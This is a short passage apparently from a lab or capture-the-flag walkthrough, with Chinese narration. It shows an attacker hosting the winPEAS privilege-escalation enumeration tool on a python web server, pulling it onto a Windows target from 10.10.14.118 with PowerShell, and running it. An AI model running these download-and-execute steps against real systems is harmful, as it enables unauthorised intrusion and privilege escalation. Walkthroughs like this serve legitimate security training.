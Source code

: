 ```
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe
python3 -m http.server 8000
```



```
powershell
wget http://10.10.14.118:8000/winPEASx64.exe -outfile winPEASx64.exe
```

![image-20230607234014476](图片/image-20230607234014476.png)

我们成功下载了二进制文件。要执行它，我们将执行以下操作:

```
.\winPEASx64.exe
```
